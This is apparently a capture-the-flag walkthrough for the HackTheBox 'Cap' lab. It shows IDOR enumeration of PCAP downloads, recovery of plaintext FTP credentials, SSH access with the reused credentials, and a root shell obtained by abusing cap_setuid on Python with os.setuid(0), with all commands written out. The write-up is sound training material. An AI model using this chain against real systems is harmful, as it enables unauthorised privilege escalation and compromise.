


<div align="center">



</div>

## 📌 Overview

Cap is an easy Linux box on HackTheBox. It looks simple on the surface — a web app, some network captures, FTP. But the privilege escalation is where it teaches something most people miss entirely: **Linux Capabilities**.

The attack chain requires:

* Exploiting an IDOR vulnerability in a web application
* Downloading and analyzing PCAP files
* Extracting FTP credentials from plaintext traffic
* Gaining SSH access using reused credentials
* Enumerating Linux capabilities instead of SUID
* Exploiting `cap_setuid` on Python to escalate privileges

---

## 🛠 Tools Used

```
nmap            → port and service discovery
browser         → manual web interaction
Wireshark       → PCAP analysis
ftp             → file transfer access
ssh             → remote shell access
linpeas         → privilege escalation enumeration
getcap          → capability enumeration
python3         → privilege escalation via cap_setuid
```

---

## 🎯 Target Information

| Field        | Value                         |
| ------------ | ----------------------------- |
| Target IP    | 10.129.21.34                  |
| OS           | Ubuntu Linux                  |
| Key Services | FTP (21), SSH (22), HTTP (80) |
| Goal         | Read /root/root.txt           |

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify all open ports and services.

```bash
nmap -sV -sC 10.129.21.34
```

**Key findings:**

| Port   | Service | Detail         |
| ------ | ------- | -------------- |
| 21/tcp | FTP     | vsftpd         |
| 22/tcp | SSH     | OpenSSH        |
| 80/tcp | HTTP    | Python web app |

FTP was open but required credentials. The web app became the initial attack surface.



---

### Step 2 — Web App and IDOR

**Goal:** Identify vulnerabilities in the web application.

The web application hosted a dashboard with a network capture feature. Downloading a capture used this endpoint:

```
http://10.129.21.34/data/1
```

Changing the number:

```
http://10.129.21.34/data/0
http://10.129.21.34/data/2
http://10.129.21.34/data/3
```

Each request returned a different PCAP file.

This is **IDOR (Insecure Direct Object Reference)** — the server failed to validate authorization and returned arbitrary data based on user-controlled input.

Downloaded `/data/0` for analysis.


---

### Step 3 — PCAP Analysis (Wireshark)

**Goal:** Extract credentials from captured network traffic.

Opened the PCAP file in Wireshark and filtered for FTP traffic.

FTP transmits credentials in plaintext. The capture revealed a full login sequence with visible username and password.

Credentials successfully recovered.


---

### Step 4 — FTP Access and User Flag

**Goal:** Access the system using recovered credentials.

```bash
ftp 10.129.21.34
```

Login successful. The user flag was found:

```bash
get user.txt
```

Credential reuse allowed SSH access:

```bash
ssh nathan@10.129.21.34
```

Shell obtained as user `nathan`.


---

### Step 5 — Privilege Escalation Enumeration

**Goal:** Identify potential escalation vectors.

Standard checks:

```bash
sudo -l
```

No useful entries.

```bash
find / -perm -u=s -type f 2>/dev/null
```

Multiple SUID binaries found but none exploitable.

Executed linpeas for deeper enumeration.

Key finding:

```
Files with capabilities:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
```

The `python3.8` binary had `cap_setuid`.


---

### Step 6 — Understanding Linux Capabilities

**Goal:** Identify misuse of capabilities.

Linux capabilities are separate from SUID. They grant specific privileges instead of full root access.

`cap_setuid` allows a process to change its UID — including to root.

Manual enumeration command:

```bash
getcap -r / 2>/dev/null
```

This should always be part of a standard enumeration checklist.

---

### Step 7 — Exploiting cap_setuid on Python

**Goal:** Escalate privileges to root.

Open Python:

```bash
python3
```

Incorrect approach:

```python
import os
os.system("sh")
```

Shell remains as `nathan`.

Correct approach:

```python
import os
os.setuid(0)
os.system("sh")
```

Verify:

```bash
whoami
# root

cd /root
cat root.txt
```

Root access obtained.


---

## ✅ Proof of Compromise

| Flag      | Location                |
| --------- | ----------------------- |
| User flag | `/home/nathan/user.txt` |
| Root flag | `/root/root.txt`        |

Root shell obtained via Linux capabilities abuse.

---

## 🧠 What This Lab Teaches

* **IDOR vulnerabilities expose sensitive data** — always test numeric parameters
* **FTP is insecure** — credentials are transmitted in plaintext
* **Credential reuse enables lateral movement** — FTP → SSH
* **Linux Capabilities differ from SUID** — require separate enumeration
* **`getcap` is essential** — SUID checks alone are insufficient
* **cap_setuid on scripting languages = full compromise**
* **Order matters in exploitation** — privilege change must occur before spawning shell
* **linpeas output must be read carefully** — key findings are easy to miss

---

## 🚀 Attack Chain Summary

```
Nmap → ports 21, 22, 80
    ↓
Web app → /data/1 → modified to /data/0 → IDOR
    ↓
Download PCAP → Wireshark → FTP credentials
    ↓
FTP login → retrieve user.txt
    ↓
SSH login (same creds) → shell as nathan
    ↓
linpeas → python3.8 has cap_setuid
    ↓
getcap → confirm capability
    ↓
python3 → os.setuid(0) → os.system("sh") → root
    ↓
/root/root.txt
```

---

## 📌 Conclusion

> **Not all privilege escalation paths are obvious — some are hidden in plain sight.**

Cap demonstrates that modern Linux systems can expose privilege escalation vectors beyond traditional SUID or sudo misconfigurations. Capabilities are powerful and often overlooked.

Recognizing them — and knowing how to exploit them — is a critical skill in real-world penetration testing.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

<div align="center">


</div>